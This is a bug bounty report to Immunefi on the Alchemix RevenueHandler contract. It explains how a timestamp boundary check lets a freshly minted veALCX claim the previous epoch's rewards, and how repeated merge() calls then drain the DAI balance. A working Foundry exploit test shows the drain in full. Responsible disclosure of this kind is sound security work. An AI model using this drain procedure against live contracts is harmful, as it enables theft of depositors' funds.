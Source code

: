 
# The balance of RevenueHandler can be drained

Submitted on Sun May 19 2024 12:09:45 GMT-0400 (Atlantic Standard Time) by @DuckAstronomer for [Boost | Alchemix](https://immunefi.com/bounty/alchemix-boost/)

Report ID: #31453

Report type: Smart Contract

Target: https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/RevenueHandler.sol

Impacts:
- Theft of unclaimed yield

## Description
## Vulnerability Details
Normally, veALCX holders can claim the reward that has been accrued during the current Epoch from the `RevenueHandler` contract in the next Epoch.

The `epochUserVeBalance` variable contains the veALCX user's balance for the previous epoch, while the `epochTotalVeSupply` variable contains the total veALCX supply for the previous epoch.

https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/RevenueHandler.sol#L322

https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/RevenueHandler.sol#L319

However, the `balanceOfTokenAt()` function has a strong less condition:

https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/VotingEscrow.sol#L1430

```
// If time is before before the first epoch or a tokens first timestamp, return 0
if (_epoch == 0 || _time < pointHistory[userFirstEpoch[_tokenId]].ts) {
    return 0;
}
```

Therefore, if the veALCX has been created in a block where `block.timestamp == New EPOCH beginning`, the `RevenueHandler._claimable()` function will return a positive value (> 0).

This means that an attacker can flash-mint veALCX at that specific block and claim the reward from the `RevenueHandler` for the previous Epoch, effectively stealing the rewards for the previous Epoch.

## Impact Details
Theft on reward from the `RevenueHandler` contract.

        
## Proof of concept
## Proof of Concept

Poc scenario:
1. In the current epoch, two whales (whale_1 and whale_2) mint veALCX.
2. The Revenue Handler accrues the revenue in DAI (10k DAI), and the `checkpoint()` method is called.
3. However, the whales can claim the reward in the next epoch.
4. The bad guy (attacker) crafts an attack transaction in the block where `block.timestamp == New EPOCH beginning`.
5. In this scenario, the attacker can mint veALCX and claim a portion of the DAI reward from the previous epoch due to the condition `block.timestamp == New EPOCH beginning`, effectively stealing the reward from the whales.
6. The attacker can then proceed to drain the entire DAI balance from the Revenue Handler.
7. This is achieved by creating a new veALCX with a small amount of BAL and then calling `veALCX.merge()`. This action transfers the balance from the previous veALCX to the new one, providing another opportunity to claim DAI from the Revenue Handler.
8. Repeat step 7 until the Revenue Handler's balance reaches 0.

To run the PoC, place the code below in the `PoC.t.sol` file and execute the command: `forge test --mp src/test/PoC.t.sol --fork-url 'URL'`.


```
pragma solidity ^0.8.15;

import "./BaseTest.sol";

contract Poc is BaseTest {
    uint256 EPOCH = 2 weeks;

    function setUp() public {
        setupContracts(block.timestamp);

        hevm.prank(admin);
        revenueHandler.transferOwnership(address(this));

        revenueHandler.addRevenueToken(dai);
    }

    // Run as: forge test --mp src/test/Poc.t.sol --fork-url 'URL'
    function test_poc() public {
        address whale1 = address(1);
        address whale2 = address(2);

        address bad = address(3);

        // Whales stake and get veAlcx
        uint256 tokenId_w1 = createVeAlcx(whale1, 1000e18, MAXTIME, false);
        uint256 tokenId_w2 = createVeAlcx(whale2, 1000e18, MAXTIME, false);

        // Accrue revenue in DAI
        deal(dai, address(this), 10_000 ether);
        IERC20(dai).transfer(address(revenueHandler), 10_000 ether);

        // Checkpoint in current epoch
        revenueHandler.checkpoint();

        // Whales should be able to claim the reward in the next Epoch
        assertEq(
            revenueHandler.claimable(tokenId_w1, dai), 0
        );

        // Move to the beginning of the next Epoch
        uint256 BEGINNING_NEW_EPOCH = ((block.timestamp) / EPOCH) * EPOCH + EPOCH;
        hevm.warp(BEGINNING_NEW_EPOCH);

        // The bad guy immediately mints veAlcx and calls checkpoint() in the new Epoch
        uint256 tokenId_bad = createVeAlcx(bad, 100e18, MAXTIME, false);
        revenueHandler.checkpoint();

        // Because the block.timestamp matches the beginning of the Epoch
        // it returns positive value
        // https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/VotingEscrow.sol#L1430
        assertGt(
            veALCX.balanceOfTokenAt(tokenId_bad, BEGINNING_NEW_EPOCH), 0
        );

        assertGt(
            revenueHandler.claimable(tokenId_bad, dai), 0
        );

        // The bad guy claims the reward in DAI
        // stealing the reward from whales
        hevm.startPrank(bad);
        revenueHandler.claim(
            tokenId_bad,
            dai,
            address(0),
            revenueHandler.claimable(tokenId_bad, dai),
            bad
        );
        hevm.stopPrank();

        assertGt(
            IERC20(dai).balanceOf(bad), 0
        );

        // The bad guys completely drains DAI reward from revenueHandler!!!
        assertGt(
            IERC20(dai).balanceOf(address(revenueHandler)), 0
        );

        uint256 last_id = tokenId_bad;
        while(true) {
            uint256 current_id = createVeAlcx(bad, 10, MAXTIME, false);

            hevm.startPrank(bad);

            veALCX.merge(last_id, current_id); // Merge old veALCX with new!!

            uint256 claimable = revenueHandler.claimable(current_id, dai);

            assertGt(
                claimable, 0
            );

            uint256 skip = 0;
            if (claimable > IERC20(dai).balanceOf(address(revenueHandler))) {
                claimable = IERC20(dai).balanceOf(address(revenueHandler));
                skip = 1;
            }

            revenueHandler.claim(
                current_id,
                dai,
                address(0),
                claimable,
                bad
            );

            last_id = current_id;

            if (skip > 0)
                break;

            hevm.stopPrank();
        }

        assertEq(
            IERC20(dai).balanceOf(address(revenueHandler)), 0
        );
    }
}
```